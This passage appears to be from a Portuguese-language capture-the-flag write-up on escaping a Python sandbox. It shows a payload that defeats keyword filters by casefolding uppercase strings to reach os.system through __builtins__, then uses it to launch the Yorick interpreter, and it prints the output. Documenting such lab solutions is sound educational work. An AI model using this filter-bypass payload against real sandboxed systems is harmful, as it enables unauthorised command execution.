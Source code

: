 
E por fim, foi executado o `print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()])` e foi concluível que a payload está executando os arquivos do `os` agora foi escolhido um meio de chamar uma shell
```
>> print(__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()])
<built-in function system>
```

A máquina ela deu uma dica
```
Interpreted programming language designed for numerics, graph plotting, and steering large scientific simulation codes.
```

Procurando isso pela internet foi encontrado um software chamado `Yorick`

Foi juntado todas essas informações e feito essa payload
`__builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')`

```
>> __builtins__.__dict__['__IMPORT__'.casefold()]('OS'.casefold()).__dict__['SYSTEM'.casefold()]('/lib/yorick/bin/yorick')
 Copyright (c) 2005.  The Regents of the University of California.
 All rights reserved.  Yorick 2.2.04 ready.  For help type 'help'
> help
 /* DOCUMENT help, topic
          or help
      Prints DOCUMENT comment from include file in which the variable
      TOPIC was defined, followed by the line number and filename.
      By opening the file with a text editor, you may be able to find
      out more, especially if no DOCUMENT comment was found.
      Examples:
        help, set_path
      prints the documentation for the set_path function.
        help
      prints the DOCUMENT comment you are reading.
 
      This copy of Yorick was launched from the directory:
       /lib/yorick/bin/
      Yorick's "site directory" at this site is:
       /lib/yorick/
      You can find out a great deal more about Yorick by browsing
      through these directories.  Begin with the site directory,
      and pay careful attention to the subdirectories doc/ (which
      contains documentation relating to Yorick if the yorick-doc
      package is installed) and i/ (which contain many examples of
      Yorick programs).
      Look for files called README (or something similar) in any
      of these directories -- they are intended to assist browsers.
      The site directory itself contains std.i and graph.i, which
      are worth reading.
 
      Type:
        help, dbexit
      for help on debug mode.  If your prompt is "dbug>" instead of
      ">", dbexit will return you to normal mode.
 
      Type:
        quit
      to quit Yorick.
 
    SEE ALSO: about, quit, info, print, copyright, warranty, legal
  */
 defined at:  LINE: 37  FILE: /lib/yorick/i0/std.i
```